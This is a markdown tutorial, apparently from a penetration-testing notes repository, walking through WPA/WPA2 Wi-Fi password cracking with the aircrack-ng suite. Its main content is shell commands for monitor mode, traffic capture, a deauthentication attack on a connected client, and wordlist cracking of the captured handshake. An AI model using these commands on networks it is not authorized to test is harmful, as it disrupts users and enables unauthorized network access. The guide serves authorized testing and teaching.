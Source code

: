 # Aircrack-ng (WPA/WPA2)

Using just the `aircrack-ng` suite of tools to crack the secret.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least on client associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

```
![four-way](../../images/fourway-handshake.png)

```bash
# Stop airodump-ng when it appears
qq

# Crack the password
sudo aircrack-ng -0 -w $WORDLIST -b $BSSID -e $SSID $PCAP
```

![four-way](../../images/cracked-password-wpa.png)

* If password is not found:
    * Make sure that a four-way handshake is captured
    * Use a better password file

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
